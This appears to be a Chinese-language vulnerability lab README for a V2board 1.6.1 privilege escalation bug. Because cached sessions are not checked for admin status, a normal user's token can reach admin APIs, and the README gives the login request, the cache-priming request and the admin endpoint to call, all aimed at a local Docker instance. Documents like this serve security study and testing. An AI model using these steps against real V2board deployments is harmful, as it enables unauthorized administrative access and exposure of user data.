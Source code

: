 # V2board 1.6.1 提权漏洞

V2board是一个多用户代理工具管理面板。在其1.6.1版本中，引入了对于用户Session的缓存机制，服务器会将用户的认证信息储存在Redis缓存中。

但由于读取缓存时没有校验该用户是普通用户还是管理员，导致普通用户的认证信息即可访问管理员接口，造成提权漏洞。

参考链接：

- <https://github.com/v2board/v2board/commit/5976bcc65a61f7942ed4074b9274236d9d55d5f0>

## 漏洞环境

执行如下命令启动一个V2board 1.6.1版本服务器：

```
docker compose up -d
```

服务启动后，访问`http://localhost:8080`即可查看到其登录页面。

## 漏洞复现

复现该漏洞，必须注册或找到一个普通用户账号。注册完成后，我们发送如下请求进行登录（将其中账号密码替换成你注册时使用的信息）：

```
curl -i -s -k -XPOST --data-binary "email=example%40example.com&password=a123123123" http://localhost:8080/api/v1/passport/auth/login
```

服务器会返回当前用户的认证信息“auth_data”：

![](1.png)

拷贝这个认证信息，并替换到如下数据包的`Authorization`头中，发送：

```
GET /api/v1/user/info HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Authorization: ZXhhbXBsZUBleGFtcGxlLmNvbTokMnkkMTAkMVJpUFplR2RnZlFPSVRyWEM4dW0udW5QZVZNTGs3RlFFbkFVVnBwbEhmTlMyczdQaEpTa3E=
Cache-Control: max-age=0


```

![](2.png)

这一步的目的是让服务器将我们的Authorization头写入缓存中。

最后，只需要带上这个Authorization头，即可使用所有管理员API了。例如`http://your-ip:8080/api/v1/admin/user/fetch`

![](3.png)
